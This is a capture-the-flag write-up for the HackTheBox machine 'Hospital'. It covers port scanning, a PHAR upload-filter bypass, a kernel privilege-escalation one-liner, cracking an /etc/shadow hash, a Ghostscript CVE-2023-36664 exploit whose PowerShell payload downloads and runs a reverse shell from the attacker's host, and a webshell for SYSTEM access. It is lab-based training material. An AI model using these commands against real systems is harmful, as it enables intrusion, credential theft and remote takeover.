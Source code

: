 ```yaml
---
title: "Hospital Write-Up - HackTheBox"
description: "Medium Seasonal HackTheBox machine"
pubDatetime: 2023-11-26
tags: ["media", "htb", "season3", "file upload", "cve-exploitation"]
---
```


## Table of contents

## Enumeration

First of all, we do a broad port scan enumeration:

~~~bash
# Nmap 7.94 scan initiated Sat Nov 18 23:39:13 2023 as: /usr/bin/nmap -sS -p- --min-rate 3000 -n -Pn -vvv -oG openPorts 10.10.11.241
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.11.241 ()	Status: Up
Host: 10.10.11.241 ()	Ports: 22/open/tcp//ssh///, 53/open/tcp//domain///, 88/open/tcp//kerberos-sec///, 135/open/tcp//msrpc///, 139/open/tcp//netbios-ssn///, 389/open/tcp//ldap///, 443/open/tcp//https///, 445/open/tcp//microsoft-ds///, 464/open/tcp//kpasswd5///, 593/open/tcp//http-rpc-epmap///, 636/open/tcp//ldapssl///, 1801/open/tcp//msmq///, 2103/open/tcp//zephyr-clt///, 2105/open/tcp//eklogin///, 2107/open/tcp//msmq-mgmt///, 2179/open/tcp//vmrdp///, 3268/open/tcp//globalcatLDAP///, 3269/open/tcp//globalcatLDAPssl///, 3389/open/tcp//ms-wbt-server///, 5985/open/tcp//wsman///, 6404/open/tcp//boe-filesvr///, 6406/open/tcp//boe-processsvr///, 6407/open/tcp//boe-resssvr1///, 6409/open/tcp//boe-resssvr3///, 6613/open/tcp/////, 6618/open/tcp/////, 8080/open/tcp//http-proxy///, 9389/open/tcp//adws///, 10358/open/tcp/////	Ignored State: filtered (65506)
# Nmap done at Sat Nov 18 23:39:57 2023 -- 1 IP address (1 host up) scanned in 43.92 seconds
~~~

Then we can target the detected ports:

~~~bash
# Nmap 7.94 scan initiated Sat Nov 18 23:40:17 2023 as: nmap -p22,53,88,135,139,389,443,445,464,593,636,1801,2103,2105,2107,2179,3268,3269,3389,5985,6404,6406,6407,6409,6613,6618,8080,9389,10358 -sCV -oN target 10.10.11.241
Nmap scan report for 10.10.11.241
Host is up (0.11s latency).

PORT      STATE SERVICE           VERSION
22/tcp    open  ssh               OpenSSH 9.0p1 Ubuntu 1ubuntu8.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e1:4b:4b:3a:6d:18:66:69:39:f7:aa:74:b3:16:0a:aa (ECDSA)
|_  256 96:c1:dc:d8:97:20:95:e7:01:5f:20:a2:43:61:cb:ca (ED25519)
53/tcp    open  domain            Simple DNS Plus
88/tcp    open  kerberos-sec      Microsoft Windows Kerberos (server time: 2023-11-19 05:40:25Z)
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap              Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
443/tcp   open  ssl/http          Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?
1801/tcp  open  msmq?
2103/tcp  open  msrpc             Microsoft Windows RPC
2105/tcp  open  msrpc             Microsoft Windows RPC
2107/tcp  open  msrpc             Microsoft Windows RPC
2179/tcp  open  vmrdp?
3268/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
3269/tcp  open  globalcatLDAPssl?
5985/tcp  open  http              Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
6404/tcp  open  msrpc             Microsoft Windows RPC
6406/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
6407/tcp  open  msrpc             Microsoft Windows RPC
6409/tcp  open  msrpc             Microsoft Windows RPC
6613/tcp  open  msrpc             Microsoft Windows RPC
6618/tcp  open  msrpc             Microsoft Windows RPC
8080/tcp  open  http              Apache httpd 2.4.55 ((Ubuntu))
9389/tcp  open  mc-nmf            .NET Message Framing
10358/tcp open  msrpc             Microsoft Windows RPC
...
~~~

## Initial foothold (port 8080)

There is a web service running under port 8080.

![](@assets/HackTheBox/Hospital/index.png)

After creating an account we can upload images. They get uploaded to an `/uploads` folder.

![](@assets/HackTheBox/Hospital/upload.png)

After capturing the upload request with burpsuite I notice there is an extension blacklist but we can bypass it by uploading a **.PHAR** file.

![](@assets/HackTheBox/Hospital/phar_bypass.png)

There are some blocked functions as seen from the phpinfo() output.

![](@assets/HackTheBox/Hospital/disable_functions.png)

Still can execute system commands with a less php [function](https://www.php.net/manual/en/function.popen.php) called `popen()`.

![](@assets/HackTheBox/Hospital/popen.png)

![](@assets/HackTheBox/Hospital/output.png)

Upload a shell script with wget, give it permissions and execute it.

![](@assets/HackTheBox/Hospital/shell.png)

We receive a shell as `www-data` but in a machine called **webserver**, not hospital.

![](@assets/HackTheBox/Hospital/shell1.png)

### Local privilege escalation

The target is running an ubuntu version with a kernel vulnerable to [CVE-2023-2640 & CVE-2023-32629](https://www.crowdstrike.com/blog/crowdstrike-discovers-new-container-exploit/)

The PoC to obtain a shell as root is pretty straight-forward:

~~~bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("bash")'
~~~

Once as root we can read the `/etc/shadow` file to try and crack the `drwilliams` user password as I tested is an user of the main machine:

![](@assets/HackTheBox/Hospital/drwilliams0.png)

![](@assets/HackTheBox/Hospital/hash.png)

![](@assets/HackTheBox/Hospital/drwilliams.png)

## Roundcube (port 443)

Under port 443 there is running a mail service called [roundcube](https://roundcube.net/).

![](@assets/HackTheBox/Hospital/main.png)

We can login reusing user and password from `drwilliams`. We see a mail from **drbrown@hospital.htb** asking us to send an **.eps** file so he can open it with Ghostscript.

![](@assets/HackTheBox/Hospital/eps.png)

## GhostScript exploit

Looking up to exploits regarding Ghostscript I found a recent [critical RCE](https://www.bleepingcomputer.com/news/security/critical-rce-found-in-popular-ghostscript-open-source-pdf-library/) that affects all Ghostscript versions before 10.01.2, and is triggered by opening an **.eps** file. 

I found a PoC on github: [https://raw.githubusercontent.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection/main/CVE_2023_36664_exploit.py](https://raw.githubusercontent.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection/main/CVE_2023_36664_exploit.py)

~~~bash
❯ wget https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection/raw/main/CVE_2023_36664_exploit.py
...
❯ python CVE_2023_36664_exploit.py -g -p "powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.82:4444/shell.ps1')" -x eps
[+] Generated EPS payload file: malicious.eps
~~~

>For this to work i will be hosting the `shell.ps1` on a python http server. The payload I used is [powershell-reverse-shell.ps1](https://github.com/martinsohn/PowerShell-reverse-shell/raw/main/powershell-reverse-shell.ps1).

~~~bash
❯ ls
 CVE_2023_36664_exploit.py   malicious.eps   shell.ps1

❯ python3 -m http.server 80                                                                                                          
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
~~~

Now I set up my listener and send the exploit to the victim.

![](@assets/HackTheBox/Hospital/send.png)

After a little while I receive the shell and the user flag.

![](@assets/HackTheBox/Hospital/shell2.png)

Looking for interesting files we find the user password in a file inside the `Documents` folder:

![](@assets/HackTheBox/Hospital/password.png)

![](@assets/HackTheBox/Hospital/evil.png)

## Privilege escalation

For privilege escalation it will be very easy.

Looking at the web server folder privileges, notice we have write permissions, so we can simply upload a webshell and run commands as an NT AUTHORITY user:

![](@assets/HackTheBox/Hospital/icacls.png)

![](@assets/HackTheBox/Hospital/shell3.png)

From here we can just send us a shell or simply read the flag.

![](@assets/HackTheBox/Hospital/root.png)

**Happy Hacking!**

